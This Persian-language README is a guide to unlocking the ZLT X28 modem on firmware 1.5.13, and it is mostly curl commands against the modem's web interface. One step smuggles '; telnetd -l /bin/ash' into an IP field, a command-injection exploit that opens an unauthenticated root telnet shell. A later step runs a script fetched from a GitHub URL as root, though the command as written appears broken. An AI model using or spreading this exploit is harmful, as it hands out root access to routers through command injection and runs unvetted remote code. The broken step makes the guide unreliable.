

# 🔓 آنلاک مودم ZLT X28

---

### ✨ آنلاک کامل مودم ZLT X28 + پنل مدیریت


---

### 📊 مشخصات دستگاه

| مدل | نسخه نرم‌افزار |
|----|---------------|
| ZLT X28 | 1.5.13 |

---

## 🚨 هشدار بسیار مهم
**این روش فقط روی نسخه 1.5.13 کار می‌کند.  
اجرای آن روی نسخه‌های دیگر باعث خرابی پنل وب می‌شود.**

---

## معرفی
مودم ZLT X28 بر پایه نسخه‌ای سفارشی از **OpenWrt** ساخته شده است.  
برای آنلاک کردن، نیاز به یک مودم دیگر با اینترنت فعال دارید.

---

## پیش‌نیازها

| مورد | لینوکس / مک | ویندوز |
|----|-------------|--------|
| مودم دارای اینترنت | ✅ | ✅ |
| کابل LAN | ✅ | ✅ |
| curl | موجود | موجود |
| Telnet | معمولاً فعال | باید فعال شود |

---

### ⚠️ نکته بسیار مهم برای ویندوز
در PowerShell، دستور `curl` در واقع **Invoke-WebRequest** است  
و از `-k` و `--data-raw` پشتیبانی نمی‌کند.

✅ **حتماً از `curl.exe` استفاده کنید.**

---

## مرحله ۱: دریافت sessionId
1. وارد پنل مودم شوید
2. Developer Tools را باز کنید
3. تب Network
4. صفحه را Refresh کنید
5. مقدار `sessionId` را کپی کنید


---

## مرحله ۲: فعال‌سازی WAN
کابل LAN را از مودم اینترنت‌دار به **پورت 1** مودم ZLT وصل کنید.


---

### فعال‌سازی WAN با دستور

#### لینوکس / مک
```bash
curl -k https://192.168.70.1/cgi-bin/http.cgi \
 -X POST \
 --data-raw '{
  "method":"POST",
  "cmd":302,
  "LinkMode":"linkIP",
  "IpVersion":"IPV4",
  "IpMode":"dhcp",
  "MTU":1500,
  "NatEnable":"1",
  "wanRouter":"1",
  "language":"EN",
  "sessionId":"<YOUR_SESSION_ID>"
 }'
```

#### ویندوز (CMD / PowerShell)

```powershell
curl.exe -k "https://192.168.70.1/cgi-bin/http.cgi" ^
 -X POST ^
 --data-raw "{\"method\":\"POST\",\"cmd\":302,\"LinkMode\":\"linkIP\",\"IpVersion\":\"IPV4\",\"IpMode\":\"dhcp\",\"MTU\":1500,\"NatEnable\":\"1\",\"wanRouter\":\"1\",\"language\":\"EN\",\"sessionId\":\"<YOUR_SESSION_ID>\"}"
```

---

## مرحله ۳: فعال‌سازی Telnet


#### لینوکس / مک
```bash
curl -k https://192.168.70.1/cgi-bin/http.cgi \
 --data-raw '{
  "enabled":"1",
  "ip":"192.168.1.1 ; telnetd -l /bin/ash",
  "cmd":172,
  "method":"POST",
  "subcmd":6,
  "language":"EN",
  "sessionId":"<YOUR_SESSION_ID>"
 }'
```


#### ویندوز (CMD / PowerShell)

```powershell
curl.exe -k "https://192.168.70.1/cgi-bin/http.cgi" ^
 --data-raw "{\"enabled\":\"1\",\"ip\":\"192.168.1.1 ; telnetd -l /bin/ash\",\"cmd\":172,\"method\":\"POST\",\"subcmd\":6,\"language\":\"EN\",\"sessionId\":\"<YOUR_SESSION_ID>\"}"
```
---

## مرحله ۴: اتصال به Telnet

```bash
telnet 192.168.70.1
```

 در ویندوز ابتدا **Telnet Client** را فعال کنید.

> Control Panel → Programs → Windows Features

---

## مرحله ۵: اجرای اسکریپت آنلاک
در اتصال تلنت ایجاد شده دستور را اجرا کنید

```sh
sh $(https://github.com/mahdigh782/Unlock-ZLT-X28/raw/refs/heads/main/x28)
```

مودم ریستارت می‌شود و پس از بالا آمدن **آنلاک شده است**.

---

## حمایت مالی

TRON (TRX):

💠 Wallet Address: TXDhVJDtkBUq2KN3QYZW4zDtkJkLLwFVgb


---

#ZLT_X28 #Modem_Unlock #Admin_Panel_Access #Custom_Modem_UI #Firmware_Upgrade #4G_Modem_Unlock #Network_Unlock_ZLT #ZLT_Admin_Unlock
